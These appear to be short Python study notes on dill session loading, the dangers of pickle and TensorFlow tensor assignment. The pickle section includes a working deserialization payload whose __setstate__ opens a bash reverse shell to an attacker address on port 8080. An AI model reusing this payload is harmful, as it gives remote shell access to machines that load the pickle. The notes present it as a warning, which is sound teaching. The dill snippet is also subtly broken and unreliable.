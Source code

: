Load session

```python
import dill
with open('session.pkl', 'wb') as file:
  dill.load_session(pickle_off)

```

#### Danger of pickle

> The script below will run an command on the loading of a pickle
> 
> **Do not use the pickle module to deserialize objects from untrusted sources!** 
```python

# remote.py
import pickle
import os

class foobar:
    def __init__(self):
        pass

    def __getstate__(self):
        return self.__dict__

    def __setstate__(self, state):
        # The attack is from 192.168.1.10
        # The attacker is listening on port 8080
        os.system('/bin/bash -c
                  "/bin/bash -i >& /dev/tcp/192.168.1.10/8080 0>&1"')


my_foobar = foobar()
my_pickle = pickle.dumps(my_foobar)
my_unpickle = pickle.loads(my_pickle)

```

### tensorflow
#### Important notes

> Tensors are not assignable

```python
import tensorflow as tf
try:
    x[0, 0] = 0.
except TypeError as err:  # gives an TypeError
    print(err)
```
- use TensorFlow variables
